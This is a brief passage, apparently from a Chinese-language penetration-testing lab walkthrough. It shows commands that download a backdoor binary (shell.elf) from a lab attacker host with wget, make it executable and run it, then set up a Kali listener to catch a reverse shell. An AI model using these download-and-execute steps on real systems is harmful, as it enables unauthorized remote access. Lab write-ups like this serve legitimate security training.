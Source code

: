 wget http://192.168.47.128:8000/shell.elf //主动下载后门马

![img](assets/1695034946172-9b61e80a-b565-47e9-8e73-0176b7df2e36.png)

chmod 777 shell.elf //赋予权限
./shell.elf //运行

kali开启监听 记得切换payload：

![img](assets/1695034948398-51ce26de-8025-405d-96d3-002255ce76e9.png)
至此有三个shell
